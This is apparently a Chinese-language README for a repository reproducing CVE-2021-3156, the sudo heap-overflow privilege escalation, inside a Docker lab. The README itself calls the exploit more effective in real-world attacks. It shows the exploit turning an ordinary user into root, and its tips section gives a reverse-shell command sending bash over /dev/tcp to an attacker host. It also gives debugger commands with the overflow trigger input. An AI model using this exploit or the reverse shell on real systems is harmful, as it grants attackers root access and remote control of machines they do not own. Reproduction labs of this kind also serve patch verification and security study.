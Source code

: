 # 1. cve-2021-3156

复现环境，利用方式为非交互式，在实战中更为有效

| name  | version         |
| ----- | --------------- |
| sudo  | 1.8.31-1ubuntu1 |
| glibc | 2.31-0ubuntu9.2 |

## 1.1. 复现

创建docker image并启动container

``` bash
docker build . -t cve-2021-3156
docker run -ti cve-2021-3156 /bin/bash
```

## 1.2. 验证

验证cve-2021-3156

``` bash
victim@8f54ce1812d8:~/CVE-2021-3156$ ll
total 44
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ./
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ../
-rw-r--r-- 1 victim victim   211 Feb 18 02:02 Makefile
-rwxr-xr-x 1 victim victim 17472 Feb 18 02:29 exploit*
-rw-r--r-- 1 victim victim  3225 Feb 18 02:11 exploit.c
drwxr-xr-x 2 victim victim  4096 Feb 18 02:29 libnss_x/
-rw-r--r-- 1 victim victim   607 Feb 18 02:02 shellcode.c
victim@8f54ce1812d8:~/CVE-2021-3156$ id
uid=1000(victim) gid=1000(victim) groups=1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$ ./exploit id
uid=0(root) gid=0(root) groups=0(root),1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$
```

结果图

![](./exploit.png)

## 1.3. tips

### 1.3.1. 关于反弹shell

``` bash
./exploit "/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'"
```

### 1.3.2. 关于调试

创建docker image并启动container

``` bash
docker build . -f debug.Dockerfile -t cve-2021-3156-debug
docker run -ti cve-2021-3156-debug /bin/bash
```

启动调试并下断点

```
gdb --args sudoedit -s '\' `perl -e 'print "A" x 65536'` 
b ../../../plugins/sudoers/sudoers.c:964
b ../../../plugins/sudoers/sudoers.c:978
```
